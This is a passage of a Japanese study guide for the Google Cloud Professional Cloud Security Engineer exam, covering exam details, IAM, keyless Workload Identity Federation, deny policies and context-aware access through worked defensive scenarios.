





# Google Cloud Certified - Professional Cloud Security Engineer 完全対策＆実践学習ガイド

- **対象資格**: Google Cloud Certified - Professional Cloud Security Engineer
- **試験コード**: PCSE (Professional Cloud Security Engineer)
- **公式試験ガイド**: [Professional Cloud Security Engineer 認定試験ガイド (日本語版)](https://services.google.com/fh/files/misc/professional_cloud_security_engineer_exam_guide_japanese.pdf?hl=ja)
- **公式試験ページ**: [Professional Cloud Security Engineer | Google Cloud Certification](https://cloud.google.com/learn/certification/cloud-security-engineer?hl=ja)
- **公式学習パス**: [Google Skills - Security Engineer Learning Path](https://www.skills.google/paths/15)
- **最終更新日**: 2026-10-14

---

## はじめに

クラウドコンピューティングが企業のIT基盤の中核となるにつれ、サイバーセキュリティの脅威モデルと防御パラダイムは劇的な進化を遂げています。境界型防御（ペリメータセキュリティ）だけに依存した従来のセキュリティモデルは、リモートワークの普及、SaaS利用の急拡大、マイクロサービスやマルチクラウドの進展によって限界を迎えています。

Google Cloud が提唱するセキュリティモデルは、すべてのアクティビティを「暗黙的に信頼しない」ゼロトラストアーキテクチャ（BeyondCorp / BeyondProd）を根幹としています。インフラストラクチャのあらゆるレイヤー（ハードウェア、ブートストラップ、ネットワーク、アイデンティティ、ストレージ、実行環境）において暗号化、検証、最小権限のアクセス制御が組み込まれています。

本ガイドは、Google Cloud Certified - Professional Cloud Security Engineer 認定試験の合格を目指すエンジニア、および Google Cloud 上で堅牢なセキュリティアーキテクチャを設計・実装するセキュリティ担当者のための決定版ドキュメントです。公式試験ガイドに完全準拠し、ピラミッド原則に基づいた体系的な概念解説、機能比較マトリクス、そして実務の現場で直面する課題を想定した「構造化実践シナリオ（状況 / 対応 / 結果 / 解説）」を通じて、単なる用語暗記を超えた実践的なアーキテクチャ意思決定能力を培います。

### Professional Cloud Security Engineer 試験とは

Professional Cloud Security Engineer は、組織が Google Cloud 上で安全なワークロードとインフラストラクチャを設計、実装、運用、管理できるように支援するプロフェッショナル認定資格です。

- **試験時間**: 120 分（2 時間）
- **出題問題数**: 50〜60 問
- **出題形式**: 択一選択問題（4 肢中 1 つ選択）、複数選択問題（5 肢以上中 2 つ以上選択）
- **合格基準点**: 合格 / 不合格（合否結果のみ通知され、スコアは非開示）
- **前提知識**: 3 年以上の業界実務経験（セキュリティ運用の実務経験 1 年以上を含む）、および Google Cloud を使用した本番環境ソリューションの設計・構築・運用管理に関する 1 年以上の実務経験が推奨されます。

### 難易度と求められる思考力

本試験は、Google Cloud のプロフェッショナル認定の中でも特に高度な設計判断が求められる資格の 1 つです。単に「どのサービスを使えばよいか」という機能知識を問う問題は少なく、以下のようなトレードオフや複合要件に対する深い理解が問われます。

1. **アクセス制御の多層化と職掌分散**:
   - IAM ロール、IAM 条件、IAM 拒否ポリシー、Access Context Manager（コンテキスト認識アクセス）、組織ポリシーの優先順位と継承関係の正確な把握。
   - サービスアカウントキーの完全撤廃（Workload Identity 連携、短期間有効な認証情報、権限借用）の実装能力。
2. **ネットワーク境界とデータ持ち出し防止（Data Exfiltration Prevention）**:
   - ファイアウォールルールだけでは防御できない「認証済み正規ユーザーや侵害されたリソースによる外部個人バケットへのデータ持ち出し」を、VPC Service Controls の境界、Ingress / Egress ルール、Private Service Connect を用いて遮断する設計力。
3. **データ暗号化と鍵管理のライフサイクル**:
   - デフォルト暗号化、CMEK（顧客管理暗号鍵）、Cloud HSM、Cloud EKM（外部鍵管理）の規制要件・運用負荷・可用性に応じた選定基準。
   - エンベロープ暗号化の仕組み、鍵の自動ローテーション、暗号化消去（Crypto-shredding）の実現。
4. **サプライチェーンセキュリティと運用の自動化**:
   - ビルドパイプライン（Cloud Build）、コンテナ検証（Artifact Analysis）、デプロイ時強制遮断（Binary Authorization）による SLSA 準拠のソフトウェアサプライチェーン防御。
   - Security Command Center（SCC）によるリアルタイム脅威検知と Event Threat Detection / Cloud Run 等を活用した自動修復パイプライン。

### 推奨の勉強法

1. **公式一次ドキュメントとセキュリティブループリントの精読**:
   - Google Cloud の公式アーキテクチャフレームワーク（セキュリティ、プライバシー、コンプライアンス）およびエンタープライズ基盤ブループリントを精読し、Google が推奨する設計思想の「王道」を理解します。
2. **実機ハンズオンによる手触り感の習得**:
   - Google Skills の実機ラボを活用し、VPC Service Controls の境界構築、Cloud KMS の鍵作成と CMEK 適用、IAM 拒否ポリシーの設定、Security Command Center の脆弱性検出などを実際にコンソールや gcloud / Terraform で体験します。
3. **実践シナリオ（状況・対応・結果・解説）による意思決定プロセスの追体験**:
   - 本ガイドに収録された網羅的な実践シナリオを読み込み、「なぜその技術を選定するのか」だけでなく「なぜ他の有力な代替案では要件を満たせないのか（棄却理由）」を論理的に言語化できるレベルまで思考を深めます。

---

## 目次

1. [はじめに](#はじめに)
2. [学習カリキュラム・出題範囲ロードマップ](#学習カリキュラム出題範囲ロードマップ)
3. [Section 1: アクセスの構成 (約 25%)](#section-1-アクセスの構成-約-25)
4. [Section 2: 通信の保護と境界保護の確立 (約 20%)](#section-2-通信の保護と境界保護の確立-約-20)
5. [Section 3: 確実なデータ保護 (約 23%)](#section-3-確実なデータ保護-約-23)
6. [Section 4: オペレーションの管理 (約 20%)](#section-4-オペレーションの管理-約-20)
7. [Section 5: コンプライアンス要件のサポート (約 12%)](#section-5-コンプライアンス要件のサポート-約-12)
8. [まとめと推奨学習ステップ](#まとめと推奨学習ステップ)

---

## 学習カリキュラム・出題範囲ロードマップ

### セクション一覧と出題比率

| セクション番号 | セクション名 / 出題分野 | 出題比率 | 主要対象サービス・ツール |
| :--- | :--- | :--- | :--- |
| **Section 1** | アクセスの構成 | 約 25.0% | Cloud Identity, GCDS, SSO (SAML / OAuth 2.0), 2 段階認証, Workforce Identity 連携, サービスアカウント管理（キーレス化, 短期認証情報, 権限借用, Workload Identity 連携）, Cloud IAM（事前定義/カスタムロール, IAM 条件, 拒否ポリシー, Access Context Manager, ポリシーインテリジェンス）, リソース階層（組織・フォルダ・プロジェクト・組織ポリシー） |
| **Section 2** | 通信の保護と境界保護の確立 | 約 20.0% | 境界セキュリティ（階層型ファイアウォールポリシー, Cloud Armor WAF, IAP, Certificate Authority Service, Secure Web Proxy, Cloud DNS SEC）, 境界セグメント（VPC, Shared VPC, VPC ピアリング, N 層分離, VPC Service Controls [境界, 境界ブリッジ, Egress/Ingress ルール]）, プライベート接続（HA-VPN, Cloud Interconnect, MACsec, プライベート Google アクセス, Private Service Connect, Cloud NAT） |
| **Section 3** | 確実なデータ保護 | 約 23.0% | センシティブデータ保護（Sensitive Data Protection / Cloud DLP, PII 検査/秘匿化, 継続的プロファイリング, 仮名化, フォーマット保持暗号化 [FPE]）, データストアアクセス制限（BigQuery, Cloud Storage, Cloud SQL）, Secret Manager, VM メタデータ保護, 暗号化管理（デフォルト暗号化, CMEK, Cloud HSM, Cloud EKM, オブジェクトライフサイクル）, Confidential Computing（Confidential VM / GKE）, AI セキュリティ＆プライバシー（Vertex AI セキュリティ, トレーニングデータ/モデル保護） |
| **Section 4** | オペレーションの管理 | 約 20.0% | セキュリティ自動化（CI/CD パイプライン脆弱性スキャン, Artifact Analysis, Binary Authorization, VM / コンテナのベースイメージ強化・パッチ管理, Security Health Analytics カスタムモジュール）, ロギング・モニタリング・検知（Cloud Logging, VPC フローログ, Packet Mirroring, Cloud IDS, ログ分析, ログシンク・集約シンク, Cloud Audit Logs, Security Command Center [SCC Enterprise / Premium, イベント脅威検出, 異常検出, 脆弱性管理, ガバナンス]） |
| **Section 5** | コンプライアンス要件のサポート | 約 12.0% | 規制要件（PCI DSS, HIPAA, FedRAMP, GDPR, 責任共有モデル）, データとサービスのリージョン化, 規制遵守のための制御（Assured Workloads, 組織ポリシー制約, アクセスの透明性 [Access Transparency], アクセス承認 [Access Approval]） |

---

## Section 1: アクセスの構成 (約 25%)

本セクションでは、Google Cloud におけるアイデンティティ（ID）基盤の設計、認証メカニズム、最小権限に基づくきめ細やかな認可制御、および組織リソース階層のガバナンスが問われます。エンタープライズの既存 ID プロバイダ（IdP）との統合から、静的キーを完全排除したセキュアなワークロード間認証、ゼロトラスト型のコンテキスト認識アクセス、IAM 拒否ポリシーによるガードレール実装まで、多岐にわたるトピックを扱います。



### 1. セクション概要

エンタープライズのクラウドアドプションにおいて、アイデンティティは従来のネットワーク境界に代わる「新しいセキュリティ境界」です。Google Cloud のアクセス制御アーキテクチャは、「誰が（プリンシパル）」「どのような条件で（コンテキスト / IAM 条件）」「どのリソースに対して（リソース階層）」「どのような操作を行えるか（ロールと権限）」を厳密かつ一元的に評価するよう設計されています。

#### 重要キーワード

- **Cloud Identity**: Google Cloud および Google Workspace の統合 IDaaS。オンプレミスの Active Directory や LDAP、外部 IdP（Okta, Entra ID 等）と同期し、ユーザーとグループを一元管理します。
- **Google Cloud Directory Sync (GCDS)**: オンプレミスの Active Directory / LDAP から Cloud Identity への一方向同期を実行するコネクタツール。パスワードそのものは同期せず、SAML SSO と併用します。
- **Workforce Identity 連携**: 企業で利用している外部 IdP（SAML 2.0 / OIDC 対応）の認証情報をそのまま利用して Google Cloud コンソールや gcloud CLI にアクセスさせる連携機能。Cloud Identity への個別ユーザープロビジョニングを不要にします。
- **Workload Identity 連携**: AWS、Azure、GitHub Actions、オンプレミス等の外部ワークロードに対し、長期間有効なサービスアカウントキーを発行することなく、OIDC トークン交換によって Google Cloud リソースへの安全なアクセスを許可するキーレス認証機構。
- **サービスアカウントの権限借用（Service Account Impersonation）**: 開発者や自動化パイプラインがサービスアカウントの秘密鍵を直接ダウンロードする代わりに、`roles/iam.serviceAccountTokenCreator` 権限を用いて短時間有効な OAuth 2.0 アクセストークンをオンデマンドで生成・取得する手法。
- **IAM 条件（IAM Conditions）**: 属性（アクセス日時、発信元 IP、リソースのタグ、リソース名プレフィックス等）に基づいて、条件付きでロールを付与する機能。
- **IAM 拒否ポリシー（IAM Deny Policies）**: リソース階層上位で定義され、指定したプリンシパルに対して特定の権限を強制的に剥奪するガードレール。IAM 許可ポリシー（Allow）よりも常に優先して評価されます。
- **Access Context Manager**: IP アドレス、地域、デバイスの健全性（OS バージョン、ディスク暗号化、画面ロック等）に基づき「アクセスレベル」を定義し、IAP や VPC Service Controls と連携してゼロトラスト制御を提供するエンジン。
- **組織ポリシー（Organization Policy Service）**: 組織全体や特定フォルダに対して、クラウドリソースの構成ルール（例: 外部 IP の禁止、サービスアカウントキー作成の禁止）を中央集権的に強制するガバナンス機構。

### 2. 重要トピック

#### 1. 外部連携・認証方式の選定比較マトリクス

組織外部のユーザーやワークロードを Google Cloud にセキュアに接続する際、対象が「人間（従業員）」か「マシン（外部クラウド・CI/CD）」か、および ID 管理の所在に応じて最適なアプローチを選定する必要があります。

| 連携方式 | 主な対象 | 認証プロトコル | Cloud Identity への ID 同期 | メリット | 主な考慮事項・制約 |
| :--- | :--- | :--- | :--- | :--- | :--- |
| **GCDS + SAML/OIDC SSO** | 社内従業員・管理者 | SAML 2.0 / OIDC | 必要（事前同期） | 既存のグループ構造や属性をそのまま IAM で活用可能。 | GCDS 同期サーバーの運用・保守が必要。 |
| **Workforce Identity 連携** | パートナー・社内従業員 | SAML 2.0 / OIDC | 不要（JIT 連携） | Cloud Identity にアカウントを作成・同期せずに外部 IdP のクレデンシャルで直接アクセス可能。 | 一部サービスで Workforce Pool のサポート状況の確認が必要。 |
| **Workload Identity 連携** | AWS, Azure, GitHub Actions | OIDC / AWS STS | 不要（キーレス） | 漏洩リスクの高い静的サービスアカウントキーを完全に撤廃可能。 | 外部 IdP 側で信頼できるクレデンシャル（OIDC トークン等）を発行できる環境が必要。 |
| **サービスアカウントキー（非推奨）** | レガシーな外部システム | RSA 非対称鍵ペア | 不要（秘密鍵直接利用） | 導入が容易でレガシーシステムとの結合がシンプル。 | キーの漏洩、ローテーション不備、監査困難など極めて高いセキュリティリスクを伴う。 |

- **アーキテクトの選定基準**:
  - **従業員のアクセス管理**: 既に Active Directory を運用しており、Google Cloud コンソールへシームレスにログインさせたい場合は **GCDS + SAML SSO** を採用します。外部パートナーなど組織外ユーザーの一時アクセスには **Workforce Identity 連携** を検討します。
  - **外部システム・CI/CD の自動化**: GitHub Actions や AWS ワークロードからのアクセスには、静的キー発行を組織ポリシー（`iam.disableServiceAccountKeyCreation`）で禁止した上で、例外なく **Workload Identity 連携** を採用します。

#### 2. IAM 評価ロジックと多層アクセスポリシーの優先関係

Google Cloud の認可エンジンは、プリンシパルからリクエストを受信した際、以下の厳密なシーケンスでアクセス可否を判定します。

```text
[API リクエスト受信]
       │
       ▼
【ステップ 1: IAM 拒否ポリシー（Deny Policy）の評価】
       ├─ マッチする拒否ルールが存在するか？
       │   ├─ [YES] ──► 【アクセス拒否 (403 Forbidden)】※許可ポリシーに関わらず即座に遮断
       │   └─ [NO]  ──► ステップ 2 へ進む
       ▼
【ステップ 2: IAM 許可ポリシー（Allow Policy）の評価】
       ├─ リソース階層（リソース ◄ プロジェクト ◄ フォルダ ◄ 組織）を探索
       ├─ プリンシパルに適切な権限を持つロールが付与されているか？
       ├─ IAM 条件（日時・IP・タグ等）を満たしているか？
       │   ├─ [YES] ──► ステップ 3 へ進む
       │   └─ [NO]  ──► 【アクセス拒否 (403 Forbidden)】
       ▼
【ステップ 3: コンテキスト認識アクセス / VPC SC の評価】
       ├─ Access Context Manager のアクセスレベルを満たしているか？
       ├─ VPC Service Controls の境界ルールで許可されているか？
       │   ├─ [YES] ──► 【アクセス許可 (200 OK)】
       │   └─ [NO]  ──► 【アクセス拒否 (403 VPC SC Violation)】
```

### 3. 実践シナリオ

#### シナリオ 1-1: GitHub Actions からのキーレスな Google Cloud リソースデプロイ

- **状況**: CI/CD パイプラインとして GitHub Actions を利用して Google Cloud にコンテナを自動デプロイしているが、セキュリティ監査において長期間有効なサービスアカウントキー（JSON）がリポジトリの Secrets に保存されていることが重大な脆弱性として指摘された場合
- **対応**: 組織ポリシー `iam.disableServiceAccountKeyCreation` を適用してサービスアカウントキーの新規作成をブロックし、Google Cloud 側に Workload Identity プールと OIDC プロバイダ（GitHub）を設定して、特定のリポジトリおよびブランチからのみ該当のサービスアカウントに対する権限借用を許可する属性マッピングを構成する。
- **結果**: 外部リポジトリへのクレデンシャル保存が完全に撤廃され、GitHub Actions の実行ごとに短期間有効な Google Cloud フェデレーションアクセストークンが動的に発行される安全なデプロイパイプラインが確立される。
- **解説**: Workload Identity 連携を採用することで、秘密鍵の漏洩や定期的なキーローテーションの手間を根本から解消できるためです。サービスアカウントキーを暗号化して Secrets に格納し続ける運用や、IP 制限のみで運用を継続する手法は、キー自体が流出した際のリスクを排除できないため不適格です。
- **参考ドキュメント**:
  - [Workload Identity 連携の概要](https://docs.cloud.google.com/iam/docs/workload-identity-federation?hl=ja): 外部ワークロードのキーレス認証アーキテクチャ。
  - [組織ポリシー制約: サービスアカウント キーの作成の無効化](https://docs.cloud.google.com/resource-manager/docs/organization-policy/org-policy-constraints?hl=ja): キー作成抑止のベストプラクティス。

#### シナリオ 1-2: 組織全体における管理者権限の不正付与を防止する IAM 拒否ポリシー

- **状況**: マルチテナント構成の Google Cloud 組織において、各プロジェクトの管理者に `roles/resourcemanager.projectIamAdmin` を付与して柔軟な権限委任を行っているが、下位プロジェクト管理者が誤って、あるいは不正に組織全体の最上位管理者ロール（`roles/resourcemanager.organizationAdmin`）やセキュリティ管理者ロールを自身や外部アカウントに付与することを確実に防止したい場合
- **対応**: 組織レベルで IAM 拒否ポリシー（Deny Policy）を作成し、除外対象とする少数の特権グループを除くすべてのプリンシパルに対し、組織・フォルダレベルの重要管理権限の付与操作やアクセス権限の変更を拒否するルールを定義する。
- **結果**: 個別のプロジェクト管理者が持つ IAM 管理権限に関わらず、組織レベルの拒否ポリシーによって重要権限の不正昇格がプラットフォーム全体で不可逆的に抑止される。
- **解説**: IAM 拒否ポリシーは許可ポリシー（Allow）に常に優先し、下位リソースで付与されたいかなる強い権限であっても上書きして遮断できるためです。カスタムロールを作成してプロジェクト管理者の権限を制限する手法は、新規プロジェクト作成時やロール更新時のメンテナンス負荷が高く、設定漏れが発生するリスクがあるため不適格です。
- **参考ドキュメント**:
  - [IAM 拒否ポリシーの概要](https://docs.cloud.google.com/iam/docs/deny-overview?hl=ja): 拒否ポリシーの構文と適用ルール。

#### シナリオ 1-3: 本番環境リソースに対する時間限定・属性ベースの条件付きアクセス付与

- **状況**: インフラ運用チームのエンジニアに対し、通常業務時間外や夜間の緊急メンテナンス時のみ本番環境プロジェクト内の仮想マシンに対する管理者権限（Compute 管理者）を一時的に付与し、かつ特定の曜日および IP レンジからのみ接続可能に制御したい場合
- **対応**: 対象のエンジニアグループに対して本番プロジェクトで直接恒久権限を付与せず、IAM 条件（IAM Conditions）を定義したロールバインディングを作成し、`request.time` 属性（指定の日時範囲）および `request.auth.claims` や IP 属性に基づく制限を適用する。
- **結果**: メンテナンス時間枠外のアクセスが自動的に失効し、手動での権限剥奪忘れによるセキュリティホールの発生を防止できる。
- **解説**: IAM 条件を用いることで、ロールの割り当て自体を維持したまま、リクエストの属性（時間、リソース名、アクセス元等）に応じてアクセス可否を自動的に動的評価できるためです。手動でメンテナンス開始時に権限を付与し終了時に剥奪する運用は、オペレーションミスや剥奪漏れのリスクが極めて高いため要件を満たせません。
- **参考ドキュメント**:
  - [IAM 条件の概要](https://docs.cloud.google.com/iam/docs/conditions-overview?hl=ja): CEL（Common Expression Language）を用いた条件付きアクセスの実装。

#### シナリオ 1-4: サービスアカウントの直接キー発行を廃止した権限借用（Impersonation）運用

- **状況**: データサイエンティストがローカル環境から BigQuery の機密データセットを分析する際、個人の PC にサービスアカウントキー（JSON）をダウンロードして `GOOGLE_APPLICATION_CREDENTIALS` に設定する運用が常態化しており、端末紛失やマルウェア感染時のキー流出が懸念される場合
- **対応**: ユーザーアカウントの個別キーダウンロードを禁止し、データアクセス用のサービスアカウントに対して `roles/iam.serviceAccountTokenCreator` ロールを該当エンジニアのグループに付与し、`gcloud config set auth/impersonate_service_account` を使用してオンデマンドで短時間有効なトークンを生成してアクセスさせる。
- **結果**: 開発者のローカルディスク上に秘密鍵ファイルが一切残存しなくなり、すべてのデータアクセスログに「誰がどのサービスアカウントを借用してクエリを実行したか」の完全な監査証跡が記録される。
- **解説**: サービスアカウントの権限借用を利用することで、ローカルへの静的キー保存をゼロにし、Cloud Audit Logs に借用元プリンシパル（Caller）と借用先サービスアカウントの双方が記録されるためです。サービスアカウントキーに有効期限を設定して定期的に再発行する運用は、キー自体のローカル保存リスクを解消できないため不適格です。
- **参考ドキュメント**:
  - [サービス アカウントの権限借用](https://docs.cloud.google.com/iam/docs/service-account-impersonation?hl=ja): キーレスな管理者アクセスの実現。

#### シナリオ 1-5: Access Context Manager によるデバイス健全性に基づくゼロトラストアクセス制御

- **状況**: 社外のリモート環境から機密データを含む社内 Web アプリケーション（Cloud Run 上で稼働）へアクセスする従業員に対し、会社の MDM（モバイルデバイス管理）に登録され、画面ロックおよびディスク暗号化が有効化された認定端末からのみアクセスを許可したい場合
- **対応**: 対象の Cloud Run アプリケーションの前面に Identity-Aware Proxy（IAP）を配置し、Access Context Manager でエンドポイントの検証（Endpoint Verification）属性（OS バージョン、暗号化状態、会社所有端末フラグ等）を評価するアクセスレベルを定義して、IAP のアクセスポリシーにバインドする。
- **結果**: 従業員が正しい社内アカウントとパスワード、MFA を入力した場合であっても、私用端末や暗号化が無効な非準拠デバイスからのアクセスは IAP レベルで確実にブロックされる。
- **解説**: BeyondCorp アーキテクチャに基づき、ユーザーのアイデンティティ（Who）だけでなくデバイスの健全性（Device State）を動的に評価してアクセスを決定できるためです。社内ネットワーク接続用の VPN を構築して全トラフィックを中継させる方式は、VPN に接続された私用端末経由でのラテラルムーブメントを防御できず、運用負荷とネットワーク遅延が増大するため不適格です。
- **参考ドキュメント**:
  - [Access Context Manager の概要](https://docs.cloud.google.com/access-context-manager/docs/overview?hl=ja): コンテキスト認識アクセスレベルの構成。
  - [IAP によるコンテキスト認識アクセスの有効化](https://docs.cloud.google.com/iap/docs/concepts-overview?hl=ja): デバイス状態に基づくアクセス制御。

### 4. 参考ドキュメント & 推奨ハンズオン

#### 公式一次ドキュメント
- [IAM の概要](https://docs.cloud.google.com/iam/docs/overview?hl=ja): プリンシパル、ロール、リソース階層の設計。
- [Workload Identity 連携](https://docs.cloud.google.com/iam/docs/workload-identity-federation?hl=ja): 外部クラウドや CI/CD とのキーレスフェデレーション。
- [IAM 条件の概要](https://docs.cloud.google.com/iam/docs/conditions-overview?hl=ja): 属性ベースのアクセス制御。
- [IAM 拒否ポリシーの概要](https://docs.cloud.google.com/iam/docs/deny-overview?hl=ja): ガードレールポリシーの適用。
- [Access Context Manager の概要](https://docs.cloud.google.com/access-context-manager/docs/overview?hl=ja): コンテキスト認識アクセスレベルの定義。

#### 推奨ハンズオン・ラボ（実機検証）
- [Security Best Practices in Google Cloud (Skill Badge)](https://www.skills.google/paths/15):
  - **学習目標**: IAM 条件の適用、サービスアカウントの権限借用、最小権限の原則に基づくカスタムロールの作成をコンソールおよび CLI で検証。

---

## Section 2: 通信の保護と境界保護の確立 (約 20%)

本セクションでは、Google Cloud の多層防御ネットワークセキュリティ、エッジ境界保護、セキュアなハイブリッド接続、および最も重要視される VPC Service Controls（VPC SC）によるデータ持ち出し防止アーキテクチャが問われます。パブリック / プライベート境界の厳格な分離、Cloud Armor による WAF / DDoS 防御、Identity-Aware Proxy（IAP）による踏み台サーバー撤廃、そして Private Service Connect（PSC）による安全なサービス間通信の実装を体系的に学びます。



### 1. セクション概要

エンタープライズのクラウドネットワーク防御において、従来のファイアウォール（IP / ポートベースの制御）だけでは、正規の認証情報を持った内部不正者や侵害されたワークロードによる「Google 管理のマネージドサービス（Cloud Storage や BigQuery 等）を悪用したデータ持ち出し」を防ぐことができません。

Google Cloud では、ネットワーク通信を以下の 3 つの階層で統合的に保護します。
1. **外部エッジ防御**: Google のグローバルエッジネットワークにおいて、Cloud Armor による DDoS / WAF 防御、および SSL/TLS 終端を実行。
2. **内部通信セグメンテーション**: 階層型ファイアウォールポリシー、共有 VPC、プライベート Google アクセス、Private Service Connect により、インターネットを経由しないセキュアな閉域網通信を確立。
3. **API 境界防御（VPC Service Controls）**: クラウドストレージや分析基盤などの Google API を論理的な「サービス境界（Service Perimeter）」で囲い込み、境界外へのデータコピーや不正なクライアントからのアクセスを物理的・論理的に完全遮断。

#### 重要キーワード

